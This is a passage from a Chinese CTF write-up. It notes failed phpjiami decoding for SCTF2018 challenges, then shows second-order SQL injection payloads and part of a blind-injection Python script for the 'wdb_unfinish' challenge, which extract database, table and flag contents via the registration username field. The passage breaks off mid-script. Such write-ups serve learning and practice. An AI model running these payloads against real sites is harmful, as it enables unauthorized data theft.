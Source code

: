 设计[phpjiami](https://github.com/virink/phpext_phpjiami_decode)，但是解密不成功

## SCTF2018 BabySyc - Simple PHP Web
同样涉及到php代码解密问题，phpjiami-decode搭建在Ubuntu里，但是解密不成功

https://xz.aliyun.com/t/2403，这篇博客，博主就是用的这个插件解密的两题

## wdb_unfinish

存在注册页面，并且用户名在登录页面没有用到，在首页会原样显示，用户名存在注入

```
// 0+hex+0是为了防止丢失数据
email=test@666.com&username=0'%2B(select hex(hex(database())))%2B'0&password=test
//10位取一次，因为超过长度会被表示成科学计数法
email=test@59.com&username=0'%2B(select substr(hex(hex((select * from flag))) from 1 for 10))%2B'0&password=test
```

还有一个大佬的脚本，用的盲注

```
import requests
import re

register_url = "http://124.126.19.106:49676/register.php"
login_url = "http://124.126.19.106:49676/login.php"
database = ""
table_name = ""
column_name = ""
flag = ""
#获取数据库名
'''
for i in range(1,10):
    register_data = {
        'email':'test@test'+ str(i),
        'username':"0'+ascii(substr((select database()) from %d for 1))+'0"%i,
        'password':123
        }
    r = requests.post(url=register_url,data=register_data)
    login_data = {
        'email':'test@test'+ str(i),
        'password':123
        }
    r = requests.post(url=login_url,data=login_data)
    match = re.search(r'<span class="user-name">\s*(\d*)\s*</span>',r.text)
    asc = match.group(1)
    if asc == '0':
        break
    database = database + chr(int(asc))
print('database:',database)
'''
#获取表名
'''
for i in range(1,20):
    register_data = {
        'email':'test@test'+ str(i),
        'username':"0'+ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()) from %d for 1))+'0"%i,
        'password':123
        }
    r = requests.post(url=register_url,data=register_data)
    print(r.text)
    login_data = {
        'email':'test@test'+ str(i),
```